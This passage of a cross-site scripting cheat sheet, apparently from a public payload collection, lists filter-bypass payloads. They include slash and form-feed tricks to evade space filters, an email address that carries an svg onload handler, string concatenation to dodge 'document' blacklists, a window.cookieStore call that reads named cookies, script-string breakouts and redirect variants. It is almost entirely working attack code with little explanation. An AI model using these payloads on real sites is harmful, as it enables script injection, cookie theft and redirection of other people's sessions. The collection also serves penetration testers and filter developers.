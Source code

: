 ### Bypass space filter

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

### Bypass email filter

([RFC compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate))

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
window["doc"+"ument"]
```

### Bypass document.cookie blacklist

This is another way to access cookies on Chrome, Edge, and Opera. Replace COOKIE NAME with the cookie you are after. You may also investigate the getAll() method if that suits your requirements.

```
window.cookieStore.get('COOKIE NAME').then((cookieValue)=>{alert(cookieValue.value);});
```

### Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

### Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```
